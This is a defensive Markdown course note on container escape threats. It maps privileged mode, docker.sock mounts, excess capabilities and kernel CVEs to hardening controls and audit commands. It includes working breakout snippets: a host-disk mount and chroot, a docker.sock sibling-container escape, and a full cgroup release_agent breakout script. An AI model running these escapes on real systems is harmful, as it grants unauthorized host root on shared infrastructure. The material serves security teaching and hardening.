


# Container Escape and Threats

## Overview

Containers share the host kernel, so every escape technique ultimately abuses either a misconfigured boundary (privileged mode, mounted socket, excess capability) or a kernel bug that the isolation layer fails to stop. This note catalogs the realistic attack paths a hardened host must close, and pairs each one with the control from [Container-Security-Hardening](Container-Security-Hardening.md) that neutralizes it. Read it alongside [Readme](../Security-Firewall-and-Monitoring/Readme.md) for the detection side of the same threats.

> [!IMPORTANT]
> **Threat model framing**
> A container is a **process with restricted views**, not a virtual machine. Namespaces, cgroups, capabilities, and seccomp/AppArmor/SELinux are the four independent walls around that process. Escape techniques exist to breach one wall at a time — defense-in-depth means no single misconfiguration should ever be enough.

## Concepts

| Isolation primitive | What it restricts | Escape if missing/misconfigured |
|---|---|---|
| PID/mount/net/UTS/IPC namespaces | Visibility of host processes, filesystem, network | `--pid=host`, `--net=host` expose host process tree / sockets |
| cgroups | CPU/memory/IO limits | No isolation breach directly, but enables resource-exhaustion DoS and cgroup release_agent abuse |
| Capabilities (`CAP_*`) | Root's power split into ~40 discrete privileges | Excess caps (`SYS_ADMIN`, `SYS_PTRACE`, `SYS_MODULE`) let root-in-container act on the host |
| Seccomp | Syscall allow/deny list | `--security-opt seccomp=unconfined` exposes ~300 extra syscalls including `mount`, `ptrace`, `keyctl` |
| MAC (AppArmor/SELinux) | File/process access beyond DAC | `--security-opt apparmor=unconfined` or `--privileged` disables the profile entirely |
| User namespaces | Maps container root (UID 0) to unprivileged host UID | Disabled by default in classic Docker — container root == host root if no other wall holds |

## Architecture



## Escape Vectors (Threat Catalog)

### 1. Privileged containers (`--privileged`)

`--privileged` disables seccomp, AppArmor/SELinux, and grants **all** Linux capabilities, plus access to all host devices under `/dev`. It is the single most common cause of real-world container breakout in CTFs and incident reports.

```bash
# Attacker inside a --privileged container: mount the host root disk
fdisk -l                      # host block devices are visible
mkdir /mnt/host
mount /dev/sda1 /mnt/host     # mounts host filesystem read-write
chroot /mnt/host /bin/bash    # full host shell
```

> [!WARNING]
> **Never use `--privileged` in production**
> It is a debugging/testing convenience, not a deployment flag. If a workload genuinely needs elevated privilege (CI runners, `dockerd`-in-`dockerd`), grant only the specific capability required — see Mitigations.

### 2. Docker socket exposure (`docker.sock` mount)

Mounting `/var/run/docker.sock` into a container hands it full control of the Docker daemon on the **host**, which is equivalent to unrestricted host root — the daemon itself runs as root.

```bash
# Inside a container with the socket bind-mounted:
docker -H unix:///var/run/docker.sock run -it --rm \
  -v /:/host --privileged alpine chroot /host /bin/sh
# -> new sibling container mounts the entire host filesystem, runs as host root
```

This pattern shows up legitimately in CI agents and monitoring tools ("Docker-in-Docker" via socket sharing) but is one of the top container escape vectors reported by cloud security vendors.

### 3. Excess Linux capabilities

Even without full `--privileged`, individual capabilities are escape primitives:

| Capability | Abuse |
|---|---|
| `CAP_SYS_ADMIN` | `mount`, `unshare`, cgroup `release_agent` breakout |
| `CAP_SYS_PTRACE` | Attach to and inject code into host/other-container processes sharing PID ns |
| `CAP_SYS_MODULE` | Load a malicious kernel module |
| `CAP_DAC_READ_SEARCH` | Bypass file read permission checks, read arbitrary host files via `open_by_handle_at` |
| `CAP_NET_RAW` | Craft raw packets, ARP/IP spoofing on host network |

```bash
# cgroup release_agent breakout (classic CAP_SYS_ADMIN technique, no --privileged needed
# beyond SYS_ADMIN + a writable cgroup mount)
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/cgrp/release_agent
printf '#!/bin/sh\nps aux > /output' > /cmd
chmod +x /cmd
echo 0 > /tmp/cgrp/x/cgroup.procs   # triggers release_agent on host
```

### 4. Kernel exploits (CVE-driven escapes)

Because container and host share one kernel, any local privilege-escalation kernel bug is a container escape.

| CVE | Name | Vector |
|---|---|---|
| CVE-2019-5736 | `runc` overwrite | Malicious container image overwrites host `runc` binary via `/proc/self/exe` |
| CVE-2022-0492 | cgroups v1 `release_agent` | Unprivileged write to `release_agent` if kernel lacks fix, even with limited caps |
| CVE-2022-0185 | `fsconfig` heap overflow | Requires `CAP_SYS_ADMIN`, common in loosely-capped containers |
| CVE-2024-21626 | `runc` fd leak | Leaked host fd lets container process access host filesystem via `/proc/self/fd` |
| Dirty COW / Dirty Pipe class | Generic kernel LPE | Any container can trigger if unpatched — no special caps required |

> [!NOTE]
> **Kernel patching is a container control**
> Because containers cannot be "patched" independently of the host kernel, **host kernel currency is a container security control**, not a separate concern. A fully hardened Docker config on an unpatched kernel is still exploitable.

### 5. Supply-chain and runtime abuse (secondary vectors)

- **Malicious/backdoored base images** pulled from public registries without digest pinning or image scanning.
- **Mounted host paths** (`-v /:/host`, `-v /etc:/etc:rw`) that grant write access to sensitive host files (`/etc/passwd`, cron dirs, systemd units).
- **Exposed container API/metadata endpoints** (e.g., cloud instance metadata service reachable from inside a container due to `--net=host`) leaking cloud credentials.

## Mitigations Mapped to Defense-in-Depth



| Threat | Primary control (prevent) | Reference note |
|---|---|---|
| `--privileged` | Never use it; grant specific `--cap-add` only | [Container-Security-Hardening](Container-Security-Hardening.md) |
| `docker.sock` mount | Never bind-mount the socket into untrusted containers; use rootless Docker or a scoped proxy (e.g. Docker Socket Proxy) | [Container-Security-Hardening](Container-Security-Hardening.md) |
| Excess capabilities | `--cap-drop=ALL`, add back only what's needed | [Container-Security-Hardening](Container-Security-Hardening.md) |
| Kernel exploits | Patch host kernel (`dnf update` / `apt upgrade`), track `runc`/`containerd` CVEs | — |
| Runtime detection | Falco rules, `auditd` syscall rules, container-aware SIEM | [Readme](../Security-Firewall-and-Monitoring/Readme.md) |
| Lateral movement post-escape | Network segmentation (`firewalld` zones / `iptables`/`nftables`), least-privilege IAM on cloud metadata | [Readme](../Security-Firewall-and-Monitoring/Readme.md) |

## Commands

```bash
# --- Audit a running container's attack surface ---

# List added/dropped capabilities
docker inspect --format '{{.HostConfig.CapAdd}} / {{.HostConfig.CapDrop}}' <container>

# Check if container is privileged
docker inspect --format '{{.HostConfig.Privileged}}' <container>

# Check for docker.sock bind mount
docker inspect --format '{{range .Mounts}}{{.Source}} -> {{.Destination}}{{"\n"}}{{end}}' <container> \
  | grep docker.sock

# Check seccomp profile in effect
docker inspect --format '{{.HostConfig.SecurityOpt}}' <container>

# Runtime capability audit from inside the container
capsh --print

# Host-side: verify kernel version currency
uname -r
# RHEL/CentOS/Fedora
dnf list --installed kernel
# Debian/Ubuntu
apt list --installed | grep linux-image
```

## Examples

```bash
# Correct (hardened) run — the safe alternative to --privileged for a workload
# that needs raw network capability only (e.g. a network diagnostic tool):
docker run --rm \
  --cap-drop=ALL \
  --cap-add=NET_RAW \
  --security-opt no-new-privileges \
  --security-opt seccomp=/etc/docker/seccomp-default.json \
  --read-only \
  --pids-limit=100 \
  alpine ping -c1 1.1.1.1
```

```yaml
# Kubernetes equivalent: securityContext hardened Pod spec
apiVersion: v1
kind: Pod
metadata:
  name: hardened-pod
spec:
  containers:
    - name: app
      image: myregistry.example.com/app@sha256:abc123...   # digest-pinned
      securityContext:
        privileged: false
        allowPrivilegeEscalation: false
        readOnlyRootFilesystem: true
        runAsNonRoot: true
        capabilities:
          drop: ["ALL"]
```

> [!NOTE]
> **📸 Screenshot**
> _Capture: `docker inspect <container>` output showing `Privileged: false`, `CapAdd: null`, and a non-`unconfined` `SecurityOpt` seccomp profile, alongside `falco` detecting a simulated `release_agent` write attempt in real time._

## Best Practices

- Treat `--privileged` as a hard "no" in production; require a documented exception and compensating controls if unavoidable.
- Never mount `/var/run/docker.sock` into a container that runs untrusted or third-party code; use a scoped socket proxy if API access is truly needed.
- Default to `--cap-drop=ALL` and add back the minimum set (`--cap-add=NET_BIND_SERVICE`, etc.) per workload.
- Enable user namespace remapping (`userns-remap` in `daemon.json` or Podman rootless by default) so container UID 0 never equals host UID 0.
- Pin images by digest, scan with Trivy/Grype in CI, and forbid `:latest` in production manifests.
- Keep the host kernel and container runtime (`runc`, `containerd`, `docker.io`/`docker-ce`) on a patch cadence tied to CVE advisories.

## Security Considerations

- **CIS Docker Benchmark** directly covers this note's scope: 5.4 (do not use privileged containers), 5.9 (do not share host network namespace), 5.19 (limit new privileges), 5.25 (restrict container from acquiring additional privileges), 5.31 (mount docker.sock read-only or not at all).
- **NIST SP 800-190 (Application Container Security Guide)** frames image, registry, orchestrator, and host-OS layers as separate control planes — this note covers the host-OS/runtime layer specifically.
- Log and alert on every `docker run` invocation using `--privileged`, `--cap-add`, `--pid=host`, `--net=host`, or a `docker.sock` mount at admission-control time (OPA/Gatekeeper, Kyverno, or a Docker daemon plugin) rather than relying on after-the-fact detection alone.
- Rootless container runtimes (Podman by default, rootless Docker) remove an entire class of these escapes because the container engine itself never runs as host root.

## Troubleshooting

| Symptom | Likely cause | Check |
|---|---|---|
| Container process visible in host `ps aux` | `--pid=host` in use | `docker inspect --format '{{.HostConfig.PidMode}}'` |
| Unexpected host files writable from container | Broad bind mount (`-v /:/host`) | `docker inspect` Mounts section |
| `runc`/`docker` daemon crashes or hangs after container start | Possible exploit attempt (e.g. malformed `fsconfig` calls) | `journalctl -u docker`, `dmesg`, Falco alerts |
| Container escapes detected post-incident | Missing seccomp/AppArmor profile | `docker inspect --format '{{.HostConfig.SecurityOpt}}'`; compare to `unconfined` |
| Alerts firing on `notify_on_release`/`release_agent` writes | cgroup v1 breakout attempt | Verify kernel patched for CVE-2022-0492; prefer cgroup v2 (no `release_agent` in unified hierarchy) |

## References

- CIS Docker Benchmark v1.6.0 — cisecurity.org
- NIST SP 800-190, *Application Container Security Guide*
- `man capabilities` (7), `man docker-run` (1), `man seccomp` (2)
- Docker docs — Runtime privilege and Linux capabilities: docs.docker.com/engine/security/
- Kubernetes docs — Pod Security Standards & `securityContext`: kubernetes.io/docs/concepts/security/
- CVE-2019-5736, CVE-2022-0492, CVE-2022-0185, CVE-2024-21626 (NVD/MITRE entries)

## Related Notes

- [Container-Security-Hardening](Container-Security-Hardening.md) — the hardening controls that prevent every vector cataloged here
- [Readme](../Security-Firewall-and-Monitoring/Readme.md) — detection and network containment for post-escape activity
- [Linux Administration & Server Hardening](../Readme.md) — course hub and map of content
